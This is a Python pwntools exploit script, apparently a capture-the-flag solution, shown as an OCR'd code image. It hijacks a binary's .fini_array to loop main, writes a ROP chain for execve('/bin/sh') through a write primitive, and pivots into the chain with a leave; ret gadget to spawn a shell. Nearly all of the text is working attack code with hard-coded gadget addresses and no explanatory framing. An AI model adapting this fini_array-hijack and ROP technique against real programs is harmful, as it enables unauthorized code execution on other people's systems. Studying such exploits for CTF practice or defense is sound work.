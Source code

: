 ```python
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# -- Exploit goes here --

# a leave; ret gadget that's not called during normal execution
# for easier debugging
leave_ret = 0x489c24 
log.info("Leave ret: " + hex(leave_ret))

gdbscript = '''
break *{leave_ret}
continue
'''.format(**locals())
io = start()

# I used angrop to autogenerate a ropchain for execve('/bin/sh')
chain = b""
chain += p64(0x47e5d6)  # pop rax; pop rdx; pop rbx; ret
chain += p64(0x68732f6e69622f)
chain += p64(0x4b7000)
chain += p64(0x0)
chain += p64(0x4184d0)  # mov qword ptr [rdx], rax; ret
chain += p64(0x41e4af)  # pop rax; ret
chain += p64(0x3b)
chain += p64(0x401696)  # pop rdi; ret
chain += p64(0x4b7000)
chain += p64(0x44a309)  # pop rdx; pop rsi; ret
chain += p64(0x0)
chain += p64(0x0)
chain += p64(0x471db5)  # syscall

# Overwrite the _fini_array with main
fini_array = exe.get_section_by_name(".fini_array").header.sh_addr
dl_fini = 0x402960
main = 0x0401b6d

def write(addr, data):
    """Write data to addr using the write primitive"""
    assert len(data) <= 0x18
    io.sendlineafter(b'addr:',str(addr))
    io.sendafter(b'data:',data)

# 1. Loop main by writing to _fini_array
write(fini_array, p64(dl_fini) + p64(main))

# 2. Write the rop chain in 0x18 byte chunks
for i in range(0, len(chain), 0x18):
    write(fini_array + i + 0x10, chain[i:i+0x18])

# 3. Trigger the rop chain with leave; ret
ret = 0x402bcf
write(fini_array, p64(leave_ret) + p64(ret))

io.sendline(b'echo DAYUM we got a shell!')
```